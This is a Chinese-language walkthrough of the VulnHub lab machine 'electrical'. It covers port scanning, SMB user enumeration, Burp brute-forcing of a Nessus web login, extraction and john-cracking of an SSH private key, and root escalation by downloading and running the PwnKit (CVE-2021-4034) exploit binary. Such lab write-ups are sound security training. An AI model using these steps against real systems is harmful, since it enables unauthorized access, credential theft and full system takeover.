


# 前言

靶机：`digitalworld.local-electrical`，IP地址为`192.168.10.12`，后期因为卡顿，重新安装，`ip`地址后面为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.6`

`kali`采用`VMware`虚拟机，靶机选择使用`VMware`打开文件，都选择桥接网络

这里官方给的有两种方式，一是直接使用`virtualbox`加载，另一种是通过`VMware`直接加载，也给出了`iso`镜像文件。	

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过网盘下载`https://pan.quark.cn/s/86cf8a398835`

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行


# 信息收集

## 使用nmap扫描端口

扫描`tcp`端口，并保存于`nmap-tcp`

```shell
nmap -sT 192.168.10.12 --min-rate=1000 -p- -oA nmap-tcp
```


扫描常见的20个`udp`端口，不过这里的端口大部分都是不确定的情况

```shell
nmap -sU 192.168.10.12 --top-ports 20 -T4 -oA nmap-udp
```


把前面扫描出的`tcp、udp`端口，进行处理，只取端口号

```shell
grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','
#这里就是包括可能开放的端口都不要，因为是靶机，可能过滤的话，也会无法进一步扫描
ports=22,80,8080,68,69,138,161,631,1434,1900
```


对特定的端口号进行深入探测

```shell
nmap -sV -O -sC -sT 192.168.10.12 -p $ports -oA detail
```


使用脚本检测有无漏洞

```shell
nmap --script=vuln 192.168.10.12 -p $ports -oA vuln
```


## SMB探测

使用`enum4linux`尝试进行枚举，发现两个分享`print$`和`IPC$`，并还有两个用户`govindasamy`和`electrical`


## 8834端口探测

这里需要注意，使用浏览器访问时需要加上`https`协议

```shell
https://192.168.10.12:8834
```


查看页面源代码也没有信息泄露，那么尝试识别一下，使用`whatweb`测试


再使用浏览器插件`wappalyzer`识别


尝试进行目录爆破，可以使用`dirb`或`dirsearch`进行测试

```shell
dirsearch -u https://192.168.10.12:8834 -x 403,404 -e js,txt,zip,bak,cfm,dbm
```


发现有`api`，访问之后，发现有很多功能


测试这些`api`功能后，基本上都是需要登录的，无意义

# 网站密码爆破

尝试进行抓取数据包然后爆破，以前面两个用户名为测试，我这里是使用`burp`的

选择攻击点、攻击模式、以及字典的选择


这里的默认字典，只有`burp pro`版本中有，若使用社区版，可以加载密码字典，比如加载`kali`中的`/usr/share/wordlists/fasttrack.txt`字典或`rockyou.txt`也行


开始攻击后，等一会即可发现成功获取一个，用户名`govindasamy`和弱密码`password`


# 敏感信息泄露

> 下面的靶机因为重装，ip地址更改为`192.168.10.11`

输入密码进行登录，登录后发现是`nessus`的漏洞扫描的`web`界面，之前也搜索过对应版本的`nessus`漏洞，发现并没有可利用的，那么在这个`web ui`界面进行探测。


这里建议使用`burp`抓取全程的数据包

在测试`scan`中的`credentialed check`时，点击其配置`configuration`，发现一个文本域，向下居然有内容，并且还是某一个的私钥，这个可能是靶机上的，也只是可能，需要进一步测试


把这个内容复制并保存在`kali`中的一个文件中

并且在配置中，默认的账户就是`electrical`


尝试进行登录可以明显的看到，对私钥进行了加密操作

```shell
chmod 600 id1
ssh electrical@192.168.10.11 -p 22222 -i id1
```



这里先使用`john`进行破解测试

```shell
ssh2john id1 > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


可以看到密码就是用户名，啧，之前好像在哪里看到过，好像在`burp`抓包的时候与发现`ssh`私钥的同一界面，不过无所谓了

# 靶机内信息收集

使用`ssh`进行登录


查看`local.txt`文件


查看当前靶机内有哪些用户

```shell
ls -al /home
cat /etc/passwd | grep /bin/bash
```


查看网络状态连接

```shell
ss -antulp
netstat -antulp
```



查看`ip`地址状态

```shell
ip add
```


查看系统进程

```shell
ps aux | grep root
top
```


使用`find`寻找具有SUID权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```


发现有`sudo`，但是这里不知道`electrical`的密码，测试后，发现果然需要密码，所以暂时搁置

查看内核版本及系统版本

```shell
uname -a
uname -r 
cat /etc/issue
cat /etc/*release
lsb_release
```


查看定时任务

```shell
crontab -l
cat /etc/crontab
atq
```


> 注意，下面的脚本上传，都是我个人`kali`的路径，所以要自行更改的，并且下面的脚本都是在`github`上的项目，可自行去搜索下载。当然为了自己方便，我会放置在自己的网盘中的

通过`scp`上传`pspy64`检测是否有隐藏的任务

```shell
#在kali上执行该命令，通过scp传输
scp -P 22222 -i ../digital/electrical/id1 pspy64 electrical@192.168.10.11:/tmp
```

不过在靶机上执行`pspy64`后，并未有什么发现

那么再上传一个脚本`linpeas.sh`，用于检测

```shell
#在kali上执行该命令，通过scp传输
scp -P 22222 -i ../digital/electrical/id1 linpeas.sh electrical@192.168.10.11:/tmp
```

检测后，也是没有任何收获，不过还是看到一些东西，如第三方工具`gcc`等，并没有安装，也就表示无法在靶机内编译文件，也看到了可能存在的漏洞


# 提权

之前经过使用`find`寻找具有SUID权限文件时，发现有`/usr/libexec/polkit-agent-helper-1`和`/usr/bin/pkexec`，结合前面的`pwnkit`漏洞的发现,也就是`CVE-2021-4034`，猜测也许可以利用

通过`AI`搜索，以下为内容

> CVE-2021-4034（PwnKit）漏洞：
>
> ​	主要利用了具有 SUID 权限的 `/usr/bin/pkexec` 文件来实现提权
>
> `pkexec` 是 PolicyKit 提供的一个工具，用于以特权用户（通常是 `root`）身份执行命令。
>
> `PolicyKit` 是一个用于在 Linux 系统上管理特权操作的框架，`pkexec` 本身被设计为一个安全机制，用于在用户请求执行特权操作时进行权限验证。
>
> 然而，CVE - 2021 - 4034 漏洞的存在使得攻击者可以绕过 `pkexec` 的权限验证机制。该漏洞是由于 `pkexec` 在处理环境变量时存在缓冲区溢出漏洞，攻击者可以构造恶意的环境变量，使得 `pkexec` 在执行过程中出现内存错误，从而改变程序的执行流程，最终以 `root` 权限执行任意命令。

下面是`github`中的一些`poc`，因为这里无法直接在靶机编译，所以使用编译好的文件，`github`项目地址为`https://github.com/ly4k/PwnKit`

采用这个编译好的


首先下载到`kali`中，然后通过`scp`下载到靶机内

```shell
#下载
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

#传输
scp -P 22222 -i /id1 PwnKit electrical@192.168.10.11:/tmp
```

然后在靶机上加上执行权限后直接执行

```shell
chmod +x PwnKit
./PwnKit
```


提权成功，查看`/root`目录下的文件


# 总结

该靶机的考察如下：

1. 对于不存在漏洞的网站，并且需要登录才能看到内容，而且不支持注册的网站，或许爆破是最好的手段了，这里的爆破不仅仅包括密码爆破
2. 存在`smb`服务的，都可以枚举一下用户，这个会有用处的
3. 对于网站中的信息，也就是每一个模块，最好就是通过`burp`抓取数据包，至少要有历史记录，这样复盘很轻松。且网站中可能存在的隐藏信息，不一定通过页面源代码就能看到，建议使用浏览器的开发者工具，这里就是通过发现了一个私钥文件，才有下一步的
4. `ssh`的私钥文件，对于设置密码的，可以通过`john`套件进行处理，`ssh2john`转换，`john`破解
5. 对于提权，这里借助的是几个脚本`pspy64、linpeas.sh`发现的，当然还是配合`find`寻找到的SUID权限文件结合起来的。
6. 考察`pwnkit`提权，也就是`cve-2021-4034`，这个可以通过`github`下载
